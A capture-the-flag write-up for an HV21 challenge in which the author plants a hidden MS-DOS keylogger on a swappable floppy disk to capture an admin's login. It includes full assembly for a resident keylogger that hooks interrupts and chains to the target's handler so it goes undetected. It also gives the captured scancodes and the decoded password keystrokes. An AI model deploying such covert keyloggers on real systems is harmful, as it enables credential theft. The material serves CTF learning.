


# 19 - Santa's Trusty System

## Description

Santa has been using his trusty system for more than a quarter of a century and his elves think the software is far too
old and insecure. They're asking you to have a look at the software. They'd also be willing to swap one of the disks if
you provide an updated version. You'll of course get it back as soon as they've done a quick sanity test on Santa's
system.

## Solution

This challenge was really difficult but super interesting. For this challenge we are given two MS/DOS disk files as well
as a script that runs qemu:

```
qemu-system-i386 -m 1 -device VGA,vgamem_mb=4 -fda fda.img -fdb fdb.img
```

Furthermore, we are given a website that lets us upload and replace disk b. The admin then runs the program on that disk
and we can get the disk back in case there was no change detected. If we run the script we are prested a login form:



Entering some credentials then shows:


As a next step, I mounted the disks to check their contents. The disk a contained the file `AUTOEXEC.BAT` that looks
looked like this:

```
@echo off
a:\mode co80,50
a:\hv21\zlib
echo.
echo **** HV21 Challenge Demo ****
echo.
if exist b:\init.bat call b:\init.bat
a:\hv21\hv21.exe
```

Remember that we can modify the disk b. The admin will log in using the correct credentials once we upload a disk to the
website. Now there's two approaches we can take here: either we modify `hv21.exe` and read out the credentials directly
or we write a MS/DOS keylogger and grab the credentials like that. I decided to go with the second approach.

Before I wrote the keylogger, I took a look at the `hv21.exe` in ghidra.

```c
void unregister_handler() {
  FUN_1459_0530(0x1000);
  set_interrupt(*(void **)0x1bba,9);
}

void register_handler() {
  FUN_1459_0530(0x1000);
  get_interrupt(0x1459,0x1bba);
  set_interrupt((void *)0x15d,9);
}

void read_pw(undefined2 param_1_00,undefined4 param_1) {
  FUN_1459_0530(0x1000);
  *(undefined2 *)0x1bbe = 1;
  *(undefined *)0x1c40 = 0;
  *(undefined *)0x1d42 = 1;
  register_handler();
  FUN_138c_02b4(0x1459,0x10,0x10);
  FUN_138c_02ff(0x138c,0x1d41);
  do {
  } while (0 < *(int *)0x1bbe); // Wait until enter is pressed
  unregister_handler();
  copy_input(0x138c,0xff,(int)param_1,(int)((ulong)param_1 >> 0x10),0x1c40);
  return;
}
```

We can see that the program first registers its own interrupt handler for the `09h` keyboard interrupt. This means we
cannot simply set our own interrupt handler to log the keystrokes. We have to be careful because otherwise the admin
detects the change and doesn't give us back the disk b.

To log the keystrokes I adapted [a keylogger that I found
online](https://github.com/MrMichael2002/Keylogger-scan-codes/blob/master/KEYS.ASM). The following assembly instructions
log the keyboard input to a file `b:\output.txt`.

```
.model tiny
.code
.386
org 100h
Start:
		jmp	real_start

edited		dw	0
magic		dw	0BABAh
logfile		db	'b:\output.txt', 0      
handle		dw	0
buf		db	320 dup (?)
bufptr          dw	0
must_write	db	0


;IRQ1 - KEYBOARD DATA READY
new_09h:
		pushf
		pusha
		push	es                      
		push	ds
		push	cs                      
		pop	ds	;Remember segments

	        cmp	bufptr, 160
		jae	call_old_09	;Check if buffer is overflown

		in	al, 60h                 

		;cmp   	al, 39h  	;Don't remember Shift, Alt and Ctrl               
		;ja    	call_old_09             
		;cmp   	al, 2Ah
		;je    	call_old_09
		;cmp   	al, 36h                 
		;je    	call_old_09

		push  	0
		pop   	es                      
		mov   	ah, byte ptr es:[417h]  
		test  	ah, 43h                 ;Check if both shifts and CapsLock pressed
		je    	pk1                     
 
		add   	al, 80h     	            
pk1:
		mov 	di, bufptr
		mov   	buf[di], al             
		inc   	di                      
		mov   	bufptr, di
		mov   	must_write, 1           
                                    
call_old_09:
        	cmp edited, 3				;At least three edits
		jb second
		pop	ds
		pop	es
		popa
		popf
		jmp	dword ptr cs:[old_09_offset]	;Jump to old int09 handler
            
second:		pop	ds
		pop	es
		popa
		popf
		jmp	dword ptr cs:[hv_offset]        ;Jump to hv21.exe handler


old_09_offset  dw ?
old_09_segment dw ?


;DOS IDLE INTERRUPT
new_28h:
		pushf                         
		pusha
		push  	es
		push  	ds
		push  	cs
		pop   	ds

		cmp   	must_write, 1
		jne   	call_old_28  
           
		cmp   	bufptr, 160
		jb    	call_old_28             
 
		mov   	ax, 3d01h
		lea   	dx, logfile             
		int   	21h
                     
		jc    	call_old_28             
		mov   	handle, ax
		mov   	bx, ax                  
		mov   	ax, 4202h
		xor   	cx, cx
		xor   	dx, dx
		int   	21h
                     
		jc    	call_old_28
             
		mov   	ah, 40h
		mov   	bx, handle
		mov   	cx, bufptr
		lea   	dx, buf
		int   	21h                     
		jc    	call_old_28             

		mov   	ah, 3Eh
		mov   	bx, handle
		int   	21h                     
		jc    	call_old_28
 
		mov   	must_write, 0
		mov   	bufptr, 0

call_old_28:
		pop	ds
		pop   	es
		popa                          
		popf
		jmp	dword ptr cs:[old_28_offset]

old_28_offset  dw ?
old_28_segment dw ?

new_21h:
		pushf                         
		pusha
		push  	es
		push  	ds
		push  	cs
		;pop   	ds

		cmp	ax, 2509h	;If someone overrides 09h then increase the edited value and save the handler
		jne    	call_old_21

		mov	cs:hv_offset, dx
		mov	cs:hv_segment, ds
		inc	edited

        	pop     ds
        	pop     ds
        	pop     es
        	popa
        	popf
        	iret

call_old_21:
		pop     ds
        	pop     ds
		pop     es
		popa                          
		popf
		jmp     dword ptr cs:[old_21_offset]

hv_offset	dw ?
hv_segment	dw ?

old_21_offset  dw ?
old_21_segment dw ?
 
real_start:
		mov	ax, 3509h		;Get old int09h address
		int   	21h                     
 
		cmp   	word ptr es:magic, 0BABAh ;Check if has been installed
		je    	already_inst
 
		mov   	cs:old_09_offset, bx    ;Remember old int09h handler
		mov   	cs:old_09_segment, es
    
		mov   	ax, 2509h		;Set new int09h handler
		mov   	dx, offset new_09h       
		int   	21h

		mov   	ax, 3528h               ;Get old 28h handler
		int   	21h                     

		mov   	cs:old_28_offset, bx     
		mov   	cs:old_28_segment, es    

		mov   	ax, 2528h		;Set new 28h handler                
		mov   	dx, offset new_28h       
		int   	21h

		mov	ax, 3521h		;Get old21h handler
		int	21h

		mov	cs:old_21_offset, bx
		mov	cs:old_21_segment, es

		mov   	ax, 2521h		;Set new 21h handler
		mov   	dx, offset new_21h       
		int   	21h
 
		call  	create_log_file         
 
		mov   	dx, offset ok_installed   
		mov   	ah, 09h			
		int   	21h

		mov       dx, offset real_start
		mov       cl, 4
		shr       dx, cl
		add       dx, 111h
		mov       ax, 3100h		;Terminate and stay resident
		int       21h  


create_log_file:
		mov   	ax, 3D01h	;Try to open file
		lea   	dx, logfile
		int   	21h                     
		mov   	handle, ax              
		jnc   	clog4                   
 
clog3:
		mov	ah, 3Ch         ;Create new file if not opened
		mov	cx, 02h                 
		lea	dx, logfile
		int	21h
		mov	handle, ax
 
clog4:
		mov	bx, handle      ;Remember file handle
		mov	ah, 3Eh		;Close file
		int	21h
		ret 


already_inst:
		mov	dx, offset already_msg
		mov	ah, 09h
		int	21h
		jmp	exit
 

exit:
		int	20h
 
ok_installed	db 'KEYLOG successful installed$'
already_msg	db 'KEYLOG already installed$'

end	Start
```

In particular I changed the following things:
- Hook the `21h` interrupt to check if `hv21.exe` overrites the keyboard interrupt
  - If so, increase a variable and save the `hv21.exe` handler
- In the keyboard interrupt handler log the keystroke to a buffer (buffer size needed to be increased)
  - Check if `hv21.exe` overwrote the handler and if so call that handler after logging (this is needed so that no
    change gets detected)
- Use [TSR](https://en.wikipedia.org/wiki/Terminate-and-stay-resident_program) to keep the keylogger alive

With this I obtained the keystrokes of the admins credentials:

```
00000000  38 18 98 b8 19 99 04 84  13 93 38 1e 9e b8 14 94  |8.........8.....|
00000010  18 98 13 93 1c 9c 1d 02  82 9d 38 02 82 b8 38 1f  |..........8...8.|
00000020  9f b8 16 96 19 99 19 99  12 92 13 93 2a 39 b9 aa  |............*9..|
00000030  2a 1f 9f aa 12 92 2e ae  16 96 13 93 12 92 38 39  |*.............89|
00000040  b9 b8 19 99 38 1e 9e b8  06 86 06 86 11 91 38 18  |....8.........8.|
00000050  98 b8 13 93 20 a0 38 03  83 b8 1d 05 85 9d 1d 09  |.... .8.........|
00000060  89 9d 17 97 2a 39 b9 aa  23 a3 18 98 19 99 12 92  |....*9..#.......|
00000070  2a 39 b9 aa 17 97 14 94  2a 2b ab aa 1f 9f 2a 35  |*9......*+....*5|
00000080  b5 aa 26 a6 18 98 31 b1  22 a2 2a 35 b5 aa 12 92  |..&...1.".*5....|
00000090  31 b1 18 98 16 96 22 a2  23 a3 14 94 1d 06 86 9d  |1.....".#.......|
000000a0
```

Those are the scanlines that the admin entered. Now, I converted those scanlines manually to keystrokes that I could
feed to qemu to enter the password.

```
sendkey alt-o
sendkey p
sendkey 3
sendkey r
sendkey alt-a
sendkey t
sendkey o
sendkey r
sendkey ret
sendkey ctrl-1
sendkey alt-1
sendkey alt-s
sendkey u
sendkey p
sendkey p
sendkey e
sendkey r
sendkey shift-spc
sendkey shift-s
sendkey e
sendkey c
sendkey u
sendkey r
sendkey e
sendkey alt-spc
sendkey p
sendkey alt-a
sendkey 5
sendkey 5
sendkey w
sendkey alt-o
sendkey r
sendkey d
sendkey alt-2
sendkey ctrl-4
sendkey ctrl-8
sendkey i
sendkey shift-spc
sendkey h
sendkey o
sendkey p
sendkey e
sendkey shift-spc
sendkey i
sendkey t
sendkey shift-backslash
sendkey s
sendkey shift-slash
sendkey l
sendkey o
sendkey n
sendkey g
sendkey shift-slash
sendkey e
sendkey n
sendkey o
sendkey u
sendkey g
sendkey h
sendkey t
sendkey ctrl-5
sendkey ret
```

Note that it's important that `shift`, `alt`, `ctrl` are pressed correctly. Entering this gives the flag:



